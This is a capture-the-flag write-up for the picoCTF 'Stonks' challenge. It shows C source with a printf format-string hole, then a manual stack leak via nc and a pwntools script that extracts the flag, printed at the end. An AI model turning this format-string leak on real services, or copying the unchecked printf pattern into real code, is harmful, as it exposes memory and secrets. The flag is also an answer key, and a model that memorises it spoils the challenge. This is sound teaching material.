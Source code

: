 # Stonks
Category: Binary Exploitation, 20 points

## Description

> I decided to try something noone else has before. 
> 
> I made a bot to automatically trade stonks for me using AI and machine learning. 
> 
> I wouldn't believe you if you told me it's unsecure! 

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
	int shares;
	char symbol[MAX_SYM_LEN + 1];
	struct Stonks *next;
} Stonk;

typedef struct Portfolios {
	int money;
	Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
	if (!p) {
		return 1;
	}
	printf("\nPortfolio as of ");
	fflush(stdout);
	system("date"); // TODO: implement this in C
	fflush(stdout);

	printf("\n\n");
	Stonk *head = p->head;
	if (!head) {
		printf("You don't own any stonks!\n");
	}
	while (head) {
		printf("%d shares of %s\n", head->shares, head->symbol);
		head = head->next;
	}
	return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
	if (shares < 1) {
		return NULL;
	}
	Stonk *stonk = malloc(sizeof(Stonk));
	stonk->shares = shares;

	int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
	for (int i = 0; i <= MAX_SYM_LEN; i++) {
		if (i < AI_symbol_len) {
			stonk->symbol[i] = 'A' + (rand() % 26);
		} else {
			stonk->symbol[i] = '\0';
		}
	}

	stonk->next = NULL;

	return stonk;
}

int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}

Portfolio *initialize_portfolio() {
	Portfolio *p = malloc(sizeof(Portfolio));
	p->money = (rand() % 2018) + 1;
	p->head = NULL;
	return p;
}

void free_portfolio(Portfolio *p) {
	Stonk *current = p->head;
	Stonk *next = NULL;
	while (current) {
		next = current->next;
		free(current);
		current = next;
	}
	free(p);
}

int main(int argc, char *argv[])
{
	setbuf(stdout, NULL);
	srand(time(NULL));
	Portfolio *p = initialize_portfolio();
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp);

	if (resp == 1) {
		buy_stonks(p);
	} else if (resp == 2) {
		view_portfolio(p);
	}

	free_portfolio(p);
	printf("Goodbye!\n");

	exit(0);
}

```

## Solution

Let's connect to the attached service:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Stonks]
└─$ nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
```

We can see from the source code that if we choose to buy stonks, we are able to enter a string which is used as the format string for `printf`.

```c
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

This is vulnerable to a [format string attack](https://en.wikipedia.org/wiki/Uncontrolled_format_string).

Let's print some variables from the stack using this vulnerability:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Stonks]
└─$ nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Buying stonks with token:
8abb3f0.804b000.80489c3.f7f90d80.ffffffff.1.8ab9160.f7f9e110.f7f90dc7.0.8aba180.2.8abb3d0.8abb3f0.6f636970.7b465443.
Portfolio as of Mon Apr  5 19:16:34 UTC 2021


2 shares of VVHA
1 shares of SCN
22 shares of IHMA
57 shares of RES
178 shares of KLMW
111 shares of MAG
400 shares of VGGF
416 shares of SYKP
Goodbye!
```

Variables from the stack were leaked as the token. After some leaking and decoding, we can find out that the flag starts at the 15th DWORD from our leak base.

We can automate the leak using the following script:

```python
from pwn import *

flag = b''
for i in range(15, 25):
    with context.local(log_level = "error"):
        r = remote("mercury.picoctf.net", 16439)
        r.sendlineafter("What would you like to do?\n", "1")
        r.sendlineafter("What is your API token?\n", f"%{i}$p")
        r.recvuntilS("Buying stonks with token:\n")
        out = r.recvline()
        try:
            res = p32(int(out.decode(), 16))
            flag += res
        except Exception:
            pass
        r.recvall()

print(flag)
```

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Stonks]
└─$ python3 exploit.py
b'picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}\x00\xd6\xff'
```

The flag: `picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}`